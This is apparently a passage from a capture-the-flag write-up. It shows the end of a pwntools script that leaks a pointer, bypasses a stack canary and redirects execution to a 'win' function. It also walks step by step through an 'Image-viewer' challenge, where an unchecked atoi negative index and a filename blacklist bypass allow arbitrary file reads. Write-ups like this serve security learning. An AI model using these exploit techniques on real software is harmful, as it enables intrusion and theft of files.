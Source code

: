 ```
p.sendline('b')

p.readuntil(': ')
codePointer = u32(p.readn(4))

win = codePointer - 0x183b

canaryPadding = b'A' * 0x60
returnPadding = b'A' * 8

p.readuntil('quit')
p.sendline('a')
p.readuntil(': ')
p.sendline('113')           # 0x60 + 4 + 8 + 4 + 1 (newline)
p.sendline(canaryPadding + canary + returnPadding + p32(win))

p.readuntil('quit')
p.readuntil('quit')

p.sendline('d')

p.interactive()
```

## Image-viewer

---

FLAG{REDACTED}

---

_The effect of an unchecked atoi can be so intense lol_

This was a very interesting exploit. Since the buffer and the images array both are global variables, and the atoi is directly used to index into the array, it can be used to index into the buffer, using negative indices. Pretty cool. All you need to be careful is of byte alignment.

1. First you need the index. I chose -2, but -1 would also work the same. Put this index at the start of the buffer, so you can pass that to atoi.
2. Choose your filename. The whole idea is that you can read any file you want, so choose the name, and put it right after the index (although it can be _mostly_ anywhere in the buffer). Remember that the "blacklist" was for the exact file name, so it is easy to get around by simply supplying a relative path like `./flag` instead of `flag`.
3. Find the address of the filename string. In my case, it was `0x804c064`, although there was no need to worry about byte alignment for the filename.
4. Padding the buffer with a bunch of 'a's, the next thing on the list is memory management.
5. Make sure that the "entry" into the images array seems legitimate, we use the first 4 bytes to store the id, which based on the checks should be the same as the array index, -2 in this case. The next 4 bytes store the address to the filename. You need to worry about byte alignment for the index to be correct, so "allocating memory" for the images array from the end of the buffer is a great idea.
6. You can now leak any file you want :)
